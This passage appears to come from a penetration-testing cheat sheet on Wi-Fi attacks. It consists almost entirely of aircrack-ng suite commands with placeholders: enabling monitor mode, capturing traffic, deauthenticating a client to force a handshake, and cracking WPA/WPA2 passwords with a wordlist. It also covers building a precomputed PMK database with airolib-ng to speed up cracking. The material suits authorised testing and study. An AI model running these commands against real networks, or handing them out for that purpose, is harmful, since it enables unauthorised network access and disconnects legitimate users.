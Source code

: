 ```
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# Crack 
aircrack-ng <CAPTURE_NAME>
```

## WPA/WPA2 CRACKING

### Cracking WPA/WPA2 PSK with Aircrack-ng

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# Crack 
aircrack-ng <CAPTURE_NAME> -w <PASSWORDS_WORDLIST>
```

### Precomputed WPA Keys Database Attack

WPA cracking involves calculating the pairwise master key, from which the Private Transient Key (PTK) is derived. Calculating the PMK is very slow since it uses the pbkdf algorithm, however the PMK is always the same for a given ESSID and password combination. This allows us to pre-compute the PMK for given combinations and speed up the cracking of the WPA/WPA2 handshake.

#### Capture the handshake

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>
```

#### Generate pmk database

```
# Put ESSID inside a file
echo "<ESSID>" > ESSID.txt

# Import ESSID in database
airolib-ng <DB_NAME> --import essid ESSID.txt

# Import passwords list
airolib-ng <DB_NAME> --import passwd <PASSWORDS_WORDLIST>

# Generate pmk
airolib-ng <DB_NAME> --batch

# Crack with precomputed pmk
aircrack-ng -r <DB_NAME> <Handshaked_PCAP>
```
